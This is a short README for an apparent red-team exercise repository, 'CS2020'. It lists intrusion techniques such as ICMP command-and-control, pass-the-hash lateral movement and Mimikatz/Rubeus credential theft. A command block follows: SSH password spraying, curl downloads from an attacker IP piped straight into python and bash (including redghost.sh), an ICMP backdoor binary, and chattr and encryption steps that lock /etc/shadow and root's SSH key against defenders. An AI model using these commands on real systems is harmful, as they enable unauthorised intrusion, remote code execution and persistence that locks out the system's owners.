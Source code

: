 # CS2020 repository

#### MSEL concepts:
##### Authenticated C2 via ICMP on Linux and Windows
##### Fallback channels using hardcoded IPs and calculated subnets
##### Proxied lateral movement using PTT/PTH via WMI, RPC/DCOM, SMB, and WinRM 
##### Defense evasion using in-memory payloads, encryption, timestamp modification, and byte randomization
##### Credential access using Mimikittenz, Mimikatz, Minidump, Rubeus, and InternalMonologue
##### Privilege escalation using process injection, parent process spoofing, and token theft

###### DMZ
```txt
# local
spraySSH <TARGET> <USERDICTIONARY> <PASSWORDDICTIONARY>

# remote
nohup curl --insecure -sv https://<IP>/http_basic_server.py|python - & disown
nohup curl --insecure -sv https://<IP>/python_proxy_server.py|python - & disown
curl --insecure https://<IP>/icmp_basic_server -o icmp_basic_server && chmod +x icmp_basic_server

# passwd root 
chattr +i /etc/shadow
chattr +i /root/.ssh/id_rsa
openssl enc -aes-256-cbc -salt -pbkdf2 -in chattr -out chattr.tmp -k <PASSWORD> & mv chattr.tmp chattr;

curl --insecure -sv https://<IP>/redghost.sh| bash -
sysctl -w net.ipv4.icmp_echo_ignore_all=1

# proxychains.conf
localnet 127.0.0.0/255.0.0.0
socks4 <IP> <PORT> <PASSWORD>

```
